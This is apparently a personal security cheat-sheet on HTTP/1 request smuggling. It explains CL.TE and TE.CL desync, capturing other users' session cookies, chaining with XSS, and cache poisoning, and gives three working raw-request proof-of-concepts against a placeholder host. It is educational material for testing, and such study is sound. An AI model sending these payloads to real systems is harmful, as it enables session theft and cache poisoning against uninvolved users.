

# HTTP/1 Request Smuggling
Requests first go through a load balancer/reverse proxy/front end, and then get sent to a back end server. If there are inconsistencies between the calculation of the length of the requests, it allows for HTTP request smuggling.



Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header. Sometimes, front-end and back-end prioritize or don't support one or the other. This can cause the vulnerability.

With `Transfer-Encoding: chunked`, each chunk of data looks like this:
```
| size (Bytes in hex) | newline | data |
```
The message is terminated with a chunk of size zero, so something like this `0\r\n\r\n`.

> HTTP/2 is kinda immune to ambigious request length

## Exploitation

### Front-End Headers
Most likely, the front end will add some extra headers to the request it gets to forward some extra information like ids, encryption method, user ip, etc. to the back-end. But when you smuggle a basic HTTP request, it does not have these headers when it arrives at the back-end. So this might cause it to be handled differently and fail. 

To find out how a back-end request looks like, just smuggle a `POST` request that reflects (or stores) input it gets. Now when you send another normal request, it gets parsed by the front-end, and then used as input in the smuggled request. The smuggled request reflects its input (the parsed normal request), so you can see what headers the front-end adds. This also works with capturing requests from other users and capturing their session cookies and stuff (only if data is stored). [PoC](#get-full-request--clte)

### Combine with XSS
If there is some reflected xss vulnerability, you can combine it with request smuggling. This makes it so that the victim does not have to interact with a sketchy link you send them, and the attacker can control headers that normally cannot be trivially controlled.

### Web Cache
You can use HTTP request smuggling to do web cache poisening or web cache deception. This is so cool like fr. Set up a payload in a way that the front-end server sees it as a static cachable file, and the back-end sees it as a malicious or sensitive file. Now the back-end will send the malicious/sensitive file to the front-end, this server caches the response. So the attacker succesfully poisened/decepted the cache. It might be tedious to have the victim send the right request at the right time to the right front-end server. But when you have a proof of concept, it is easy for an attacker to automate this process using scripting.

## Proof of Concepts

### CL.TE | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1
a
0


```

### TE.CL | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

X
```

### Get Full Request | CL.TE
Reflect/store the request and extra headers given by the front-end into the response of the smuggled request.
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 132
Transfer-Encoding: chunked

0

POST /reflect HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```